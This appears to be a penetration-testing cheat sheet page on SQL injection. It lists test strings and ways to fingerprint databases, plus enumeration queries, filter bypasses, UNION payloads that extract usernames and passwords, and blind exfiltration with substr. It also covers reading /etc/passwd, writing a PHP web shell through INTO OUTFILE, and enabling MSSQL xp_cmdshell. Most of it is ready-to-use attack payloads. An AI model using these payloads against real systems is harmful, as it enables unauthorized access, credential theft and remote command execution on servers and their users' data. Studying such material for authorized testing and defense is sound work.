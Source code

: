 ```yaml
---
title: SQL Injection
category: Web Application
order: 5
---
```


> **SQL Injection: Test Location and Strings**

**Pull usernames and passwords if successful**

**Test Locations:**
* GET URL query parameters
* POST parameters
* Cookie (session information)
* User-Agent

**Visable Test Strings:**
{% highlight bash %}
' ` " ; /* --
{% endhighlight %}

**Blind Test Strings:**<br>
*Try the following to see if it provides valid results for text that was interpreted:*

Commenting out the end | <code> Dent' ;# <br> Dent' ;-- <br> Dent' ;-- - </code>
Commenting with semicolon | <code> Dent' or 1=1; # <br> Dent' or 1=1;-- <br> Dent' or 1=1;-- - </code>
Commenting without semicolon | <code> Dent' or 1=1 # <br> Dent' or 1=1-- <br> Dent' or 1=1-- - </code>
Inline Commenting | <code> De'/* */'nt </code>
Concatenation | <code> De''nt <br> De'||'nt </code>
Binary/Boolean | <code> Dent' and 1;# <br> Dent' and 1=1;# <br> Dent' and 0;# <br> Dent' and 1=0;# </code>
Sleep 1 | <code> Sleep(10) MySQL <br>  WAITFOR DELAY '0:0:10'  MSSQL </code> 
Sleep 2 | <code> id=1-sleep(10)  </code>
Math | <code> id=1-0 </code>


Determine the level of blindness:
{% highlight sql %}
Dent' AND 1;#
Dent' AND 1=1;#

Dent' AND 0;#
Dent' AND 1=0;#
#Look for differences
{% endhighlight %}

> **Online Tool to test syntax***

* [sqlfiddle](http://sqlfiddle.com/#!9/a6c585/51364)

> **SQL Injection: Database Identification**

MS SQL Server | Incorrect syntax near 'something'
MS SQL Server | <code> 'De'+'nt' </code>
MS SQL Server | <code> SELECT @@version  </code>
MS SQL Server | <code> @@pack_received </code>
MySQL | 'De' 'nt'
MySQL | <code> SELECT @@version  </code>
MySQL | <code> connection_id() </code>
Oracle | ORA-01756: quoted string not properly terminated
Oracle | <code> 'De'||'nt' </code>
Oracle | <code> BITAND(1,1) </code>
PostgreSQL | 5-digit Hex Error Code

> **SQL Injection: Database, Table, and Columns**

**MySQL:**

Database | schema_name FROM information_schema.schemata 
Table | table_name FROM information_schema.tables
Columns | column_name From information_schema.columns where table_name='users'

**SQL Server:**

Database | name FROM sys.databases 
Table | name FROM sys.tables 
Columns | name FROM sys.coumns

**Oracle DB:**

Database | owner FROM all_tables 
Table | table_name FROM all_tables 
Columns | column_name FROM all_tab_columns

> **SQL Injection Filter Bypass**

UTF-16 URL encoding for select and union:
%u0055Nion %u0053elect

Spaces:
union/**/select

> **SQL Injection Union**

1) Once you have identified SQL injection, use order by or UNION select to determine the number of columns:
{% highlight sql %}
dent' and 'a'='a' ORDER BY 1; #
...until it breaks
dent' and 'a'='a' ORDER BY 5; #

Dent' UNION SELECT  NULL; #
..until it works
Dent' UNION SELECT  NULL, NULL, NULL, NULL; #
{% endhighlight %}

2) See which columns (e.g., numbers) are visable and correct data type (e.g., String/varchar) in the output. 
{% highlight sql %}
Dent' UNION SELECT  'X3Y2Z1', NULL, NULL, NULL; #
...until it works and visable in source (search for X3Y2Z1)
Dent' UNION SELECT  NULL, NULL, NULL, 'X3Y2Z1'; #
{% endhighlight %}

3) From the columns identified above, use one for the union. <br> *Note: It requires the same number of columns and compatable data type*
{% highlight sql %}
Dent' UNION SELECT  '1', '2', '3', info FROM information_schema.processlist; #
<br>
or use NULL since it is compatable with everything
<br>
Dent' UNION SELECT NULL, NULL, NULL;--
<b>
jeremy'+union+select+concat('The+password+for+',username,'+is+',+password),mysignature+from+accounts;+--+
{% endhighlight %}

> **Blind SQL Injection Data Exfiltration**

Perform a binary search tree using substr: 

{% highlight sql %}
#Use
substr(([Query]),[Letter],[Word]) > "m"

substr((select table_name from information_schema.tables limit 1),1,1) > "m"
…
= "c"

{% endhighlight %}

> **Stacked Queries**

Allows multiple commands with a ';'  (Mostly MSSQL):
{% highlight sql %}
Dent' ;  CREATE TABLE exfil(data varchar(1000));-- 
{% endhighlight %}


> **Reading and Writing Files**

MySQL and MSSQL:
{% highlight sql %}
MySQL Reading:
Dent'+UNION+SELECT++'1'%2C+'2'%2C+'3'%2C+LOAD_FILE("%2Fetc%2Fpasswd")%3B+%23

MySQL Writing:
INTO OUTFILE 
http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'

SQL Server Reading: 
BULK INSERT
{% endhighlight %}

> **MSSQL Enable xp_cmdshell**

{% highlight sql %}
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

{% endhighlight %}



> **SQL Injection Cheat Sheets**

* [websec](https://websec.ca/kb/sql_injection)
* [PentestMonkey](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [SQLInjection Wiki](http://www.sqlinjectionwiki.com)

